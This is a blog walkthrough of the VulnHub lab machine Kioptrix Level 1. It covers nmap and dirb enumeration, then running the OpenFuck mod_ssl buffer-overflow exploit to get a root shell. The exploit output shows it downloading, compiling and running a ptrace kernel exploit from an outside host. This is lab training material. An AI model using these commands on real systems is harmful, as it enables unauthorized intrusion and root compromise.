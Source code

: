 ```yaml
---
layout: post
title:  "Kioptrix Level 1 Walkthrough"
date:   2019-04-09 15:44:02 +0530
categories: [vulnhub, CTF]
---
```

Kioptrix level 1 is an easy vulnerable machine on vulnhub, link is below:<br>
[Kioptrix Level 1 download page]
<h2>1. Enumeration</h2>
<br>
The port scan below reveals several open ports including SSH, HTTP, RPC, Samba and 443.
{% highlight shell_session %}
nmap -T4 -sV -A -oN nmapscan.txt 192.168.0.66
Nmap scan report for 192.168.0.66
Host is up (0.0054s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-28T23:46:31+00:00; +1h01m49s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
Host script results:
|_clock-skew: mean: 1h01m48s, deviation: 0s, median: 1h01m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}<br>

<h3>1.1 OpenSSH port 22</h3>
Using `searchsploit`, there appears to be no known vulnerabilities in the exploit database for OpenSSH.
<br>

<h3>1.2 HTTP port 80</h3>
Running `dirb` reveals several interesting files including:

{% highlight shell_session %}
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbresults.txt
URL_BASE: http://192.168.0.66/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.66/ ----
+ http://192.168.0.66/~operator (CODE:403|SIZE:273)
+ http://192.168.0.66/~root (CODE:403|SIZE:269)
+ http://192.168.0.66/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.0.66/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.0.66/manual/
==> DIRECTORY: http://192.168.0.66/mrtg/
==> DIRECTORY: http://192.168.0.66/usage/

---- Entering directory: http://192.168.0.66/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.0.66/mrtg/ ----
+ http://192.168.0.66/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.0.66/usage/ ----
+ http://192.168.0.66/usage/index.html (CODE:200|SIZE:3704)

-----------------
DOWNLOADED: 13836 - FOUND: 6
{% endhighlight %}
<br>
The only files that appear to be out of place are `~operator` and `~root`. However, these files appear have
a CODE:403 and cannot be accessed so this is a dead end.

<h3>Port 80 is running:</h3>
-Apache 1.3.20 (Not vulnerable)<br>
-Red-Hat/Linux <br>
-mod_ssl/2.8.4 OpenSSL/0.9.6b<br><br>

Using `searchsploit` to search for these services, `mod_ssl/2.8.4` appears to be Vulnerable
to a remote buffer overflow exploit.
<br>
<h2>2. Exploitation</h2>
Exploiting the `mod_ssl/2.8.4` vulnerability:<br>
The exploit, remote buffer overflow named 'OpenFuck' and 'OpenFuckv2' appears
to be out date. However, i found a patched version of the exploit on Github linked below:<br>
[Fixed alternative version of 'OpenFuck' Github]
<br><br>
Executing the exploit:
<br>
The parameters are passed (version: 0x6b, IP address: 192.168.0.66 and open N connections: -c 50) <br>
{% highlight shell_session %}
./OpenFuckExploit 0x6b 192.168.0.66 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--11:16:09--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--11:16:10--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

11:16:10 (1.25 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 7066
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
{% endhighlight %}<br>
<h2>3. Root access gained!</h2>
The `uid` and `whoami` command shows root access to the system using the OpenFuck exploit.



[Kioptrix Level 1 download page]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[Fixed alternative version of 'OpenFuck' Github]: https://github.com/heltonWernik/OpenLuck
